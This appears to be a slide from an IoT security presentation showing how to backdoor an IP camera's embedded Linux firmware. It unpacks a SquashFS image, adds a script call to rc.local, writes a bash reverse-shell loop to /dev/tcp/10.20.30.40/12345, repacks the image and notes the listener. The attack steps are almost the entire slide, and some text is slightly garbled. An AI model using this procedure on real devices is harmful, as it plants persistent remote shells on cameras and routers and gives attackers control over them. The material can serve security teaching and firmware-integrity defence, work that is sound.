

# Introduce backdoor into embedded Linux build
All linux distributions execute rc.local at boot time. Idea: add reverse shell to be executed after boot
Approach for SquashFS firmware of a IP camera:
Unpack firmware under Linux with: “unsquashfs firmware.bin”
Edit /etc/rc.local and add “/bin/myshell.sh” before “exit 0”
Create a file “bin/myshell.sh” and paste the contents of the shell
Repack the firmware with: “mksquashfs squashfs-root/ mod_fw.bin -force-uid 1000 -force-gid 1000 -comp xz”
#!/bin/bash
while true; do
        /bin/bash -i >& /dev/tcp/10.20.30.40/12345 0>&1
Done
Disadvantage: unencrypted

IoT device client
Server: ncl12345
118